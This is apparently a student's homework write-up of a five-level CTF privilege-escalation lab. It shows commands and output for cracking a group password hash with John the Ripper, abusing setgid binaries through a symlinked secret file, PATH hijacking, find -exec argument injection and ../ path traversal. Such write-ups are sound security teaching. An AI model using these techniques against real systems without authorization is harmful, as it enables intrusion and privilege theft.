 # Homework 2 - Razor CTF challenges

## Level 1

The challenge is to get access to the folder `/var/challenge/level1`. On first inspection, we can see that the folder is restricted with the following permissions:

```bash
icyfire@razor challenge → ls -lhd level1
drwxr-x--- 2 root lev1 4.0K Aug 27  2020 level1
```

In order to get inside the folder, we need to add ourselves into the group `lev1`. Looking at the entry for this group in `/etc/group` we can see this.

```bash
icyfire@razor challenge → cat /etc/group | grep lev1:
lev1:$1$gbj8oioH$vThJ7/AAk0Yowijh0QaZK0:2001:jrblack,icyfire
```

We can see that the password hash for the group `lev1` is public. We can use John the ripper to try and find the plain text password from the hash with the help of `rockyou.txt` wordlist.

```bash
icyfire@razor scratch → cat > group.txt
lev1:$1$gbj8oioH$vThJ7/AAk0Yowijh0QaZK0:2001:jrblack,icyfire

icyfire@razor scratch → john --wordlist=rockyou.txt group.txt 
Loaded 1 password hash (md5crypt [MD5 32/64 X2])
No password hashes left to crack (see FAQ)

icyfire@razor scratch → john --show group.txt 
lev1:security:2001:jrblack, icyfire

1 password hash cracked, 0 left
```

We can see that the password for the group is `security`. We can use the following command to change the current GID of the login session and then run the `l33t` command.

```bash
icyfire@razor scratch → newgrp lev1
Password:

icyfire@razor scratch → l33t
Woot! Congratulations you broke level lev1!
Adding user 'icyfire' to group 'lev1' ...
Adding user icyfire to group lev1
Done
```

## Level 2

Inspecting the contents of directory `level1`

```bash
icyfire@razor level1 → ls -lha
total 32K
drwxr-x---  2 root lev1 4.0K Aug 27  2020 .
drwxr-xr-x 16 root sudo 4.0K Aug 27  2020 ..
-rwxr-sr-x  1 root lev2 9.2K Aug 27  2020 1
-rw-r--r--  1 root lev1  505 Aug 27  2020 1.c
-r--r-----  1 root lev2    9 Aug 27  2020 .secret
-rw-------  1 root lev2  669 Aug 27  2020 .viminfo
```

The program `1` has `setgid` privileges to have an effective GID of the group `lev2`. Inspecting the source code of the program `1.c`:

```c
...
#define HASH "ab8e63c8bbe4ef68e6bc718b90720d02"
...
f = popen("/bin/cat ~/.secret | /usr/bin/md5sum", "r");
...
if (!strcmp(buf, HASH)) {
    execl("/bin/sh", "/bin/sh", (void *)NULL);
}
...
```

The program opens a file called `.secret` and if the md5 sum of the contents of the file match the hash given in the top of the file, it will spawn a shell which consumes the parent process. The folder also has a file `.secret`. Assuming the file has the correct content, we can create a symlink of that file to the current user's home directory and then execute the program.

```bash
03:27:06 icyfire@razor level1 → ln -s /var/challenge/level1/.secret ~/.secret

03:27:08 icyfire@razor level1 → ./1
$ l33t
Woot! Congratulations you broke level lev2!
Adding user 'icyfire' to group 'lev2' ...
Adding user icyfire to group lev2
Done
```

## Level 3

Inspecting the contents of directory `level2`

```bash
icyfire@razor level2 → ls -lha
total 24K
drwxr-x---  2 root lev2 4.0K Aug 27  2020 .
drwxr-xr-x 16 root sudo 4.0K Aug 27  2020 ..
-rwxr-sr-x  1 root lev3 9.4K Aug 27  2020 2
-rw-r--r--  1 root lev2 1.4K Aug 27  2020 2.c
```

Looking the contents of the source code `2.c`

```c
...
execlp("tidy", "tidy", "-asxml", (char *)0);
...
```

The contents filename given as the first command-line argument is redirected to the input of tidy HTML sanitizer. The variant of `exec` function used here is `execlp`. This particular variation looks for the executable in the `PATH` environment variable.

We can create a temporary symlink to `/bin/sh` in a directory and add the folder with that executable to `PATH` ahead of `/bin` folder. We create a dummy text file with the command that we want to run, which is `l33t`. Then we call `./2` with the dummy file we gave as the first parameter. Since our evil `tidy` executable linked to `/bin/sh` comes up first in `PATH`, it gets executed with the dummy file with commands as one of the parameters.

```bash
icyfire@razor level2 → ln -s /bin/sh ~/scratch/level2/tidy

icyfire@razor level2 → export PATH=/home/icyfire/scratch/level2/:$PATH

icyfire@razor level2 cat > ~/scratch/level2/command.txt
exec l33t > /home/icyfire/scratch/level2/out.txt

icyfire@razor level2 → ./2 ~/scratch/level2/command.txt 
OK!

icyfire@razor level2 → cat ~/scratch/level2/out.txt 
Woot! Congratulations you broke level lev3!
Adding user 'icyfire' to group 'lev3' ...
Adding user icyfire to group lev3
Done
```

## Level 4

Inspecting the contents of directory `level3`

```bash
icyfire@razor level3 → ls -lha
total 24K
drwxr-x---  2 root lev3 4.0K Oct 20  2020 .
drwxr-xr-x 16 root sudo 4.0K Aug 27  2020 ..
-rwxr-sr-x  1 root lev4 9.2K Aug 27  2020 3
-rw-r--r--  1 root lev3  821 Aug 27  2020 3.c
```

Looking at the contents of `3.c`:

```c
for (i = 1; i < argc; i++) {
    for (j = 0; j < strlen(argv[i]); j++) {
      if ((argv[i][j] == '&') ||
	      (argv[i][j] == '>') ||
	      (argv[i][j] == '<') ||
	      (argv[i][j] == '$') ||
	      (argv[i][j] == '`') ||
	      (argv[i][j] == ';') ||
	      (argv[i][j] == '|')) {
		fprintf(stderr, "Input contains prohibited characters\n");
		return 2;
      } else if (argv[i][j] == '\\') {
        ++ j;
      }
    }
  }
    
  for (i = 1; i < argc; i++) {
    snprintf(buf, 1023, "/usr/bin/find /home -iname %s", argv[i]);
    system(buf);
  }
```

We can see that the program is filtering out all the special characters from the command line parameters. We can also see that, escaping of characters using `\` is also allowed. The program searches for the value given in the first command line argument in the `/home` directory using the `find` command. The `find` command has an `-exec` parameter which allows us to run commands on the resulting paths. We can use the same `-exec` parameter to execute the `l33t` command.

```bash
icyfire@razor level3 → ./3 "icyfire -exec l33t \;" 2> ~/scratch/level3/error.txt
Woot! Congratulations you broke level lev4!
Adding user 'icyfire' to group 'lev4' ...
Adding user icyfire to group lev4
Done
```

Since there is a lot of output from the `find` command, I redirected `stderr` to a file for readability.

## Level 5

Inspecting the contents of `level4`;

```bash
icyfire@razor level4 → ls -lha
total 24K
drwxr-x---  3 root lev4 4.0K Oct 11 17:37 .
drwxr-xr-x 16 root sudo 4.0K Aug 27  2020 ..
-rwxr-sr-x  1 root lev5 7.6K Aug 27  2020 4
-rw-r--r--  1 root lev4  932 Aug 27  2020 4.c
drwxr-xr-x  3 root lev4 4.0K Aug 27  2020 devel

icyfire@razor level4 → ls -lha devel
total 12K
drwxr-xr-x 3 root lev4 4.0K Aug 27  2020 .
drwxr-x--- 3 root lev4 4.0K Oct 11 17:37 ..
drwxr-xr-x 2 root lev4 4.0K Aug 27  2020 bin

icyfire@razor level4 → ls -lha devel/bin
total 184K
drwxr-xr-x 2 root lev4 4.0K Aug 27  2020 .
drwxr-xr-x 3 root lev4 4.0K Aug 27  2020 ..
-rwxr-xr-x 1 root lev4  51K Aug 27  2020 cat
-rwxr-xr-x 1 root lev4 124K Aug 27  2020 ls
```

Inspecting the source code `4.c`:

```c
...
#define PREFIX_DIR "/var/challenge/level"
#define DEVBIN_DIR "/devel/bin/"
...
sprintf(path, "%s%d%s%s", PREFIX_DIR, getegid() - 2000 - 1, DEVBIN_DIR, argv[1]);
printf("Executing: %s\n", path);
execv(path, &argv[1]);
...

```

From the source code we can see that the program appends the last digit of the GID of the process owner to the `PREFIX_DIR` path. In this case, because of the setgid bit, the number appended would be `4`. So the effective path of the program executed will be `/var/challenge/level4/devel/bin/<param1>` where `<param1>` is the first parameter passed to the program. We can do path manipulation using `../` to trick the program to run `l33t`. In unix `..` refers to the parent directory of the current directory.

```bash
icyfire@razor level4 → ./4 ../../../../../usr/local/bin/l33t
Woot! Congratulations you broke level lev5!
Adding user 'icyfire' to group 'lev5' ...
Adding user icyfire to group lev5
Done
```